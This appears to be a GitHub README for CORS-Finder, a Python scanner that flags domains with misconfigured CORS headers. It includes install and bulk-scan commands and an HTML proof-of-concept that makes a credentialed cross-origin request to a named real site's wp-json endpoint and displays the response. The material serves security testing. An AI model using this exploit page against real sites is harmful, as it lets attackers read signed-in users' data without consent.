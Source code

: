 # CORS-Finder
## This tools is developed for identifying the vulnerable cors domain

![alt text](https://raw.githubusercontent.com/hariharan005/CORS/main/banner/Screenshot%20from%202023-07-01%2015-15-12.png)

### How to install CORS-Finder:
```
git clone https://github.com/hariharan005/CORS.git     
ls    
cd CORS
sudo pip3 install -r requirements.txt    
python3 cors.py
```
### Python Version:
* Python 3 (3.x.x) latest version

### How to Use CORS-Finder:

```
For scanning:
       cat <domain.txt> | xargs -n1 -P10 python3 corss.py                           
For scanning with output:  
       cat <domain.txt> | xargs -n1 -P10 python3 corss.py | tee -a <output.txt>
```

### When its vulnerable:
If the header returns the 
       Access-Control-Allow-Origin: https://vulnerable.com/
       Access-Control-Allow-Credentials: true
       its vulnerable

Note: Not all the time its seems vulnerable, you have to check with cors payload and in the authenticated manner also. Try to exploit and this tool is only for indentifying the vulnerable domain

Note: In this tool i used sample domain file but you have to choose your own url file which you recon using some other recon tool.


### Exploitation examples:

Here is the Example code for exploiting the CORS misconfiguration:

```
<!DOCTYPE html>
<!--[if lt IE 7]>      <html class="no-js lt-ie9 lt-ie8 lt-ie7"> <![endif]-->
<!--[if IE 7]>         <html class="no-js lt-ie9 lt-ie8"> <![endif]-->
<!--[if IE 8]>         <html class="no-js lt-ie9"> <![endif]-->
<!--[if gt IE 8]>      <html class="no-js"> <![endif]-->
<html>
    <title>Cors POC</title>
    <style>
        body{
            background-color: white;
            justify-content: center;
        }
        button{
            justify-content: center;
            align-items: center;
            color: white;
            border-radius: 8px;
            font-size: 18px;
            background-color: #6437A0;
            position: relative;
            width: 10%;
            height: 50px;
            display: grid;
        }
    </style>
     <body>
         <h1>CORS PoC by @crypto_grapper_</h1><span><h2>Hariharan.C</h2></span>
         <div id="demo">
                <button type="button" onclick="cors()" >Wp-json Exploit</button>
            </div>
         </div>
         <script>
             function cors() {
             var xhr = new XMLHttpRequest();
             xhr.onreadystatechange = function() {
                 if (this.readyState == 4 && this.status == 200) {
                 document.getElementById("demo").innerHTML = alert(this.responseText);
                 }
             };
              xhr.open("GET",
                       "https://www.salesforce.com/blog/wp-json/", true);
             xhr.withCredentials = true;
             xhr.send();
             }
             setTimeout(() => {
                document.location.reload("#");
             }, 5000);
         </script>
     </body>
 </html>
```